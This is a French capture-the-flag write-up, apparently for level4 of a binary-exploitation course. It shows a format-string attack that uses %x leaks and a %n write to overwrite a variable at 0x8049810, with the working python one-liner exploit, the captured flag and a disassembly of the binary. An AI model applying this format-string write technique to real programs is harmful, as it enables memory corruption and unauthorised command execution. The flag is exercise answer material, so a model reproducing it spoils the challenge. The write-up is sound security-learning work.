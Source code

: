 ## Démarches

- Comme au level précédent, il est possible d'afficher la mémoire avec l'appel non formaté de printf :
  - Pour trouver où se fait l'écriture des paramètres, on lance `./level4`, puis sur l'entrée standard :
    `AAA0_%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x`
    > AAA0_b7ff26b0.bffff754.b7fd0ff4.00000000.00000000.bffff718.0804848d.bffff510.00000200.b7fd1ac0.b7ff37d0.30414141
    Le 12ème octet affiche `30414141` soit notre chaîne `AAA0` (inversée car little endian)
  
  - Avant l'appel système, une comparaison est faite avec la variable à l'adresse `0x8049810` qui contient *0x1025544* soit *16930116* en décimal
  - Le fgets est limité à 512 caractères, on utilise donc l'option *%x* pour écrire suffisamment de caractères pour obtenir la bonne valeur.
  - `(python -c 'print("\x10\x98\x04\x08"+"%16930112x"+"%12$n")') | ./level4`
    > 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
<br>
----



<!-- - `objdump -d level4`
  ```
    080484a7 <main>:
    80484a7:	55                   	push   %ebp
    80484a8:	89 e5                	mov    %esp,%ebp
    80484aa:	83 e4 f0             	and    $0xfffffff0,%esp
    80484ad:	e8 a5 ff ff ff       	call   8048457 <n>
    80484b2:	c9                   	leave
    80484b3:	c3                   	ret

    08048457 <n>:
    8048457:	55                   	push   %ebp
    8048458:	89 e5                	mov    %esp,%ebp
    804845a:	81 ec 18 02 00 00    	sub    $0x218,%esp
    8048460:	a1 04 98 04 08       	mov    0x8049804,%eax
    8048465:	89 44 24 08          	mov    %eax,0x8(%esp)
    8048469:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    8048470:	00
    8048471:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    8048477:	89 04 24             	mov    %eax,(%esp)
    804847a:	e8 d1 fe ff ff       	call   8048350 <fgets@plt>
    804847f:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    8048485:	89 04 24             	mov    %eax,(%esp)
    8048488:	e8 b7 ff ff ff       	call   8048444 <p>
    804848d:	a1 10 98 04 08       	mov    0x8049810,%eax
    8048492:	3d 44 55 02 01       	cmp    $0x1025544,%eax
    8048497:	75 0c                	jne    80484a5 <n+0x4e>
    8048499:	c7 04 24 90 85 04 08 	movl   $0x8048590,(%esp)
    80484a0:	e8 bb fe ff ff       	call   8048360 <system@plt>
    80484a5:	c9                   	leave
    80484a6:	c3                   	ret

    08048444 <p>:
    8048444:	55                   	push   %ebp
    8048445:	89 e5                	mov    %esp,%ebp
    8048447:	83 ec 18             	sub    $0x18,%esp
    804844a:	8b 45 08             	mov    0x8(%ebp),%eax
    804844d:	89 04 24             	mov    %eax,(%esp)
    8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
    8048455:	c9                   	leave
    8048456:	c3                   	ret
  ``` -->
